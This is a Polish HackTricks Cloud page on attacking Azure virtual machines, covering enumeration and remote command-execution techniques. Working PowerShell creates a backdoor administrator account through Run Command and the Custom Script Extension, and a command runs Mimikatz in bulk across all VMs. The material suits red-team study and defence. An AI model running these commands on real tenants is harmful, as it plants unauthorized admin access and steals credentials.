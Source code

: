 # Az - Maszyny Wirtualne i Sieć

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na GitHubie.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Maszyny wirtualne Azure są jednym z kilku typów [zasobów obliczeniowych na żądanie i skalowalnych](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), które oferuje Azure. Zazwyczaj wybierasz maszynę wirtualną, gdy potrzebujesz większej kontroli nad środowiskiem obliczeniowym niż oferują inne opcje. Ten artykuł dostarcza informacji o tym, co powinieneś wziąć pod uwagę przed utworzeniem maszyny wirtualnej, jak ją utworzyć i jak nią zarządzać.

## Informacje o sieci Azure

Sieci Azure zawierają **różne podmioty i sposoby ich konfiguracji.** Możesz znaleźć krótkie **opisy,** **przykłady** i **komendy enumeracji** różnych podmiotów sieciowych Azure w:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferuje bezpieczne, w pełni zarządzane rozwiązanie dostępu RDP (Remote Desktop Protocol) i SSH (Secure Shell) przez SSL za pośrednictwem portalu Azure. Jest zintegrowany w ramach sieci wirtualnej Azure, umożliwiając łączność RDP i SSH z maszynami wirtualnymi przy użyciu prywatnych adresów IP, unikając potrzeby używania publicznych adresów IP. To czyni go bezpieczniejszą, bardziej wygodną alternatywą dla tradycyjnych metod związanych z przypisywaniem publicznych adresów IP i konfiguracją reguł NSG dla dostępu do maszyn wirtualnych. Programiści i personel IT mogą bezpiecznie uzyskiwać dostęp do maszyn wirtualnych z portalu Azure za pomocą swoich przeglądarek internetowych, co upraszcza proces dla środowisk deweloperskich i testowych.

Aby wyświetlić wszystkie hosty Azure Bastion w swojej subskrypcji, możesz użyć następującej komendy:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeracja VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Uruchom polecenia w VM**

### **Logowanie AAD w VM**

Możliwe jest umożliwienie dostępu użytkownikom uwierzytelnionym za pomocą AzureAD. Na przykład próbując uzyskać dostęp do **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ważne jest, aby **użyć adresu e-mail** z azurecorp używanego podczas próby logowania) możesz otrzymać błąd taki jak: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Po prostu **postępuj zgodnie z tymi instrukcjami**, przechodząc do [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i podając kod, użyj adresu e-mail i hasła jako poświadczeń, a będziesz mógł połączyć się za pomocą SSH (jeśli ten użytkownik ma wystarczające uprawnienia: rola `Virtual Machine Administrator Login` lub `Virtual Machine User Login`).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Uruchomienie rozszerzenia niestandardowego skryptu**

Rozszerzenia maszyn wirtualnych (VM) w Azure to **małe aplikacje**, które zapewniają konfigurację po wdrożeniu i automatyzację **zadań** na **maszynach wirtualnych Azure**. Na przykład, jeśli maszyna wirtualna wymaga instalacji oprogramowania, ochrony antywirusowej lub możliwości uruchomienia skryptu wewnątrz niej, możesz użyć rozszerzenia VM.

Dlatego, jeśli masz dostęp do zapisu, możesz wykonać dowolny kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) to narzędzie PowerShell podobne do Ansible, używane do konfigurowania hosta za pomocą kodu. DSC integruje się z Azure, umożliwiając przesyłanie specyficznych plików konfiguracyjnych. Pliki te muszą przestrzegać ścisłej składni. Co ważne, rozszerzenie DSC w Azure może wykonywać polecenia z plików, które spełniają określone kryteria formatowania, nawet jeśli składnia nie jest poprawna według standardów DSC, jak pokazano na załączonym rysunku.

Wykonanie tych poleceń jest ułatwione przez funkcję [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) w Az PowerShell. Wymagania obejmują plik **.PS1** z zdefiniowaną funkcją, a plik musi być spakowany do pliku **.zip**. Mimo że składnia może nie być dokładna dla DSC, kod nadal zostanie wykonany. Jednak rozszerzenie oznaczy status wykonania jako "niepowodzenie", a żadne wyjście z polecenia nie będzie widoczne z powodu nadpisania statusu komunikatem o błędzie.

### VM Application Definitions

Definicje aplikacji VM umożliwiają powtarzalne wdrażanie wersjonowanych aplikacji na maszynie wirtualnej Azure. Ten zasób wspiera wdrażanie i aktualizację aplikacji w różnych maszynach wirtualnych. Aby to skonfigurować, wymagane są różne kroki, obejmujące polecenia takie jak **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** w Az PowerShell.

Wykonanie aplikacji lub poleceń tą metodą wiąże się z **"VMAppExtension"**, która jest automatycznie instalowana, gdy aplikacja jest stosowana do maszyny wirtualnej. Rozszerzenie pobiera plik z określonego URI i nazywa go dokładnie tak samo jak aplikacja, bez rozszerzenia. Aby poprawnie wykonać plik, pole "ManageActions" w wywołaniu REST API musi być skonfigurowane do zmiany nazwy pliku na odpowiednie rozszerzenie. Ustawienie tej metody, po zakończeniu, będzie przypominać strukturę pokazaną na załączonym rysunku.

Jednak ta metoda wykonania jest stosunkowo wolna, zajmując około 3-4 minut na wykonanie aplikacji lub polecenia. Pliki związane z tym procesem są przechowywane w określonych katalogach (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` dla kopii aplikacji i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` dla statusu wykonania).

Obie techniki oferują unikalne sposoby wykonywania poleceń i wdrażania aplikacji w środowiskach Azure, każda z własnym zestawem wymagań, kroków i rozważań.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) to funkcja w Azure, która pozwala na wykonywanie Runbooków, skonfigurowanych w koncie automatyzacji, na maszynie wirtualnej Azure (VM), która jest częścią wyznaczonej HWG. To wykonanie jest ułatwione przez rozszerzenie zainstalowane na VM, które wdraża kod Runbooka na VM. Istotnym aspektem tego procesu jest to, że rzeczywiste poświadczenia nie mają znaczenia w wykonaniu, ponieważ kod działa z podwyższonymi uprawnieniami, konkretnie jako **SYSTEM** lub root, jak pokazano na załączonym rysunku.

Kluczowym szczegółem dla osób korzystających z maszyn wirtualnych Windows 10 jest konieczność określenia wersji PowerShell dla Runbooka. Powinna być ustawiona na uruchamianie jako PowerShell Version 5.1 zamiast 7.1. Wymóg ten wynika z faktu, że PowerShell 7.1 nie jest domyślnie zainstalowany na tych VM, co prowadzi do niepowodzenia w wykonaniu skryptu, jeśli określona jest wersja 7.1.

Ta funkcja Azure oferuje solidną metodę automatyzacji i zarządzania zadaniami w środowiskach hybrydowych, umożliwiając centralne zarządzanie i wykonywanie zadań na maszynach wirtualnych Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
